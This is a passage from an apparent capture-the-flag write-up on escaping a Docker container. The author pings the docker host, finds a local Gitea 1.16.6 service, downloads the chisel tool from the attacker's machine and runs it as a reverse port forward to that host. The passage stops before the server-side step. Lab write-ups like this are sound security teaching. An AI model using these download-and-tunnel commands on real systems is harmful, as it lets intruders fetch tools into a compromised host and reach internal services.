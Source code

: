 ```bash
/app # ping 172.17.0.1
PING 172.17.0.1 (172.17.0.1): 56 data bytes
64 bytes from 172.17.0.1: seq=0 ttl=64 time=0.089 ms
64 bytes from 172.17.0.1: seq=1 ttl=64 time=0.106 ms
```

## Docker Escape

### Port Forwarding

That IP address I pinged is the default host for docker networks. We know from the initial nmap scan that port 3000 is open in some regard, perhaps this container is allowed to access it. 

```bash
/app # wget http://172.17.0.1:3000
Connecting to 172.17.0.1:3000 (172.17.0.1:3000)
saving to 'index.html'
index.html           100% |********************************| 13414  0:00:00 ETA
'index.html' saved
/app # cat index.html | grep Gitea
	<title> Gitea: Git with a cup of tea</title>
	<meta name="author" content="Gitea - Git with a cup of tea" />
	<meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go" />
	<meta property="og:title" content="Gitea: Git with a cup of tea">
	<meta property="og:description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go">
<meta property="og:site_name" content="Gitea: Git with a cup of tea" />
					Gitea: Git with a cup of tea
				Gitea runs anywhere <a target="_blank" rel="noopener noreferrer nofollow" href="http://golang.org/">Go</a> can compile for: Windows, macOS, Linux, ARM, etc. Choose the one you love!
				Gitea has low minimal requirements and can run on an inexpensive Raspberry Pi. Save your machine energy!
			Powered by Gitea Version: 1.16.6 Page: <strong>7ms</strong> Template: <strong>4ms</strong>
```

There is a Gitea instance being run locally which I can access. If I had an SSH sessions I could SSH tunnel to access port 3000. Given I have a crude shell I need to find another way to access this resource.

My tool for choice in these cases is chisel, a port forwarder. It will allow me to setup a server client relationship that will forward traffic from a port I want locally to a port I want on the remote machine. The steps are simple, on the docker container run:

```bash
/app # wget http://10.10.14.4:8081/chisel_1.10.0_linux_amd64
/app # ./chisel_1.10.0_linux_amd64 client 10.10.14.4:4444 R:3000:172.17.0.1:3000
2024/08/14 02:09:49 client: Connecting to ws://10.10.14.4:4444
2024/08/14 02:09:49 client: Connected (Latency 74.73204ms)
```

And on your device run:
